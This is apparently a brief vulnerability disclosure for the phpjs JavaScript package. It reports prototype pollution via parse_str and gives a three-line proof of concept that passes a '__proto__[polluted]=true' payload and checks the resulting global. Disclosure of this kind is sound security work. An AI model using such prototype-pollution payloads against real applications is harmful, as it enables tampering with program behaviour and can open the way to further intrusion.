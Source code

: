 ## Description
```phpjs``` is a community build php binding in javasciript.
This package is vulnearble to ```prototype pollution``` via ```parse_str```. 
## Proof Of Concept
```
const phpjs = require('phpjs')
phpjs.parse_str("__proto__[polluted]=true",{}); 
console.log(polluted)
```
